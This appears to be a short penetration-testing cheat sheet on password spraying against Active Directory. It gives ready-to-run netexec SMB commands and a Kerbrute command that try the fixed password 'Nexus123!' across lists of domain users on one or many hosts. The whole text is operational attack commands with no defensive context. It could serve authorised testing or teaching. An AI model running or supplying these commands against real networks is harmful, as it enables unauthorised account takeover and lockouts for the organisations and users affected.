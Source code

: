 # SMB Password Spraying
Sprays user accounts with "Nexus123!" password
```bash
nxc smb $(ANY_DOMAIN_JOINED_MACHINE_IP) -u users.txt -p 'Nexus123!' -d $(DOMAIN) --continue-on-success
```
Spray multiple targets at once:
```bash
nxc smb -t targets.txt -u users.txt -p 'Nexus123!' -d $(DOMAIN) --continue-on-success
```
# TGT Password Spraying
https://github.com/ropnop/kerbrute

Kerbrute can be run on windows or linux. This example ruins on windows to spray usernames with the password "Nexus123!".
```powershell
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```
